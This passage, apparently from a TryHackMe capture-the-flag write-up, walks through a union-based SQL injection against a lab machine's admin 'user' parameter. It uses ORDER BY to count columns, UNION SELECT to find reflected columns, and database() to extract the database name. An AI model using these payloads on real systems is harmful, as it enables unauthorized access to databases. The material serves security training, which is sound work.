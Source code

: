 ```bash
http://10.10.87.36/admin?user=2
```

User parameter is vulnerable. So 

# SQL Injection

## Number of columns

Lets first find the number of columns used using order by query

```bash
http://10.10.87.36/admin?user=2 order by <number>
```

If we set it to 4 we get the same page as above but if we set it 5 we get error message which means 4 columns are returned.

![/assets/images/TryHackMe/The_marketplace/Untitled%2011.png](/assets/images/TryHackMe/The_marketplace/Untitled%2011.png)

## Determine which columns are reflected

```bash
http://10.10.87.36/admin?user=0 union select 1,2,3,4
```

Since there is no user with id 0 so 1,2,3,4 is returned by the query.

![/assets/images/TryHackMe/The_marketplace/Untitled%2012.png](/assets/images/TryHackMe/The_marketplace/Untitled%2012.png)

So 1 and 2 are reflected.

## Database name

```bash
http://10.10.87.36/admin?user=0 union select 1,database(),3,4
```

database() returns database name
